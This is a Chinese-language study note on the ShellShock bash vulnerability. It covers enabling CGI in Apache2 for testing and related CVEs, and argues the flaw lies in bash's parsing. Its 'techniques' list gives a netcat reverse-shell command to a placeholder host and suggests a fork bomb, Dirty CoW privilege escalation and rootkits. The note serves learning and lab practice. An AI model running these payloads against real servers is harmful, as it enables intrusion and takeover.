 ## ShellShock

### 基本信息

### 测试

#### 涉及到的 CGI 知识

这是一个 bash 漏洞，但是相关的攻击往往是远程，借助 CGI 发起的。所以关于 CGI 的相关知识要介绍一下（详细的协议可以学习第十三个参考链接）。

#### Pwn

自己写简单的 CGI 进行测试时要注意默认情况下 Apache2 的 CGI 路径为 /usr/lib/cgi-bin/ 。把你的 CGI 脚本放进去，并检查一下 /etc/apache2/mods-enabled/ 下有没有 cgi.load 、 cgid.load 、 cgid.conf 这三个配置文件，没有，则说明你的 Apache2 默认没有启用 CGI ，这时候你尝试访问 localhost/cgi-bin/myprog.cgi 是失败的。需要把 /etc/apache2/mods-available/ 下的三个文件链接到 /etc/apache2/mods-enabled/ 下（刚刚提到的那三个）：

```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
ln -s /etc/apache2/mods-available/cgid.load /etc/apache2/mods-enabled/cgid.load
ln -s /etc/apache2/mods-available/cgid.conf /etc/apache2/mods-enabled/cgid.conf
```

注意，在链接时不要使用相对路径。

另外还有 CVE-2014-7169, CVE-2014-6277, CVE-2014-6278 。一切都是因为 6271 的补丁存在漏洞。

#### 姿势

有了 PoC ，替换一下攻击载荷就能够有千百种看脑洞的姿势了。比如：

- 反向连接出来一个 shell `nc -e /bin/bash xxx.xxx.xxx.xxx xxxx`
- 放一个 ++[Fork bomb](http://www.00100011f.cc/237/)++ （我在虚拟机上测试了下，有效）
- 一般 Apache2 是以 www-data 用户运行的，所以在第一个姿势完成后，就要想办法提权了，比如 Dirty CoW ？（留个坑，可以尝试一下）
- 按照渗透测试走，这里就该后渗透阶段了。上个 rootkit 什么的，总之姿势很多

### 总结

网上有同学说这个漏洞的锅不应该让 bash 来背，是服务器程序直接把用户的输入交给 bash 处理导致的。经过研究，我认为这的确是 bash 的原因。如上所述，它的语法解析逻辑存在问题。很明显，既然是定义环境变量，那么从这个意义上讲，环境变量只能作为一个数据存在，而不应该成为指令执行。

### 参考

- [mubix/shellshocker-pocs](https://github.com/mubix/shellshocker-pocs)
- [hannob/bashcheck](https://github.com/hannob/bashcheck)
- [DanMcInerney/shellshock-hunter](https://github.com/DanMcInerney/shellshock-hunter)
- [Bash 3.0-4.3命令执行漏洞分析](http://blog.knownsec.com/2014/09/bash_3-0-4-3-command-exec-analysis/)
- 《“破壳”漏洞深度剖析》by 郭瑞
- *Shellshock Vulnerability* by Tudor Enache  (OWASP)
- *SEED Labs – Shellshock Attack Lab*
- [Bash 漏洞是什么级别的漏洞，有什么危害，具体如何修复？ (知乎)](https://www.zhihu.com/question/25522948?rf=25539470)
- [从语法解析角度分析Bash破壳漏洞 ](http://www.freebuf.com/articles/web/45520.html)
- [SEED实验系列：ShellShock攻击实验](http://www.freebuf.com/articles/network/62622.html)
- [破壳（ShellShock）漏洞样本分析报告 ](http://www.freebuf.com/articles/system/45390.html)
- [The Common Gateway Interface (CGI) Version 1.1](http://www.ietf.org/rfc/rfc3875)
- CVE-2014-6271资料汇总 （来自乌云，怀念乌云）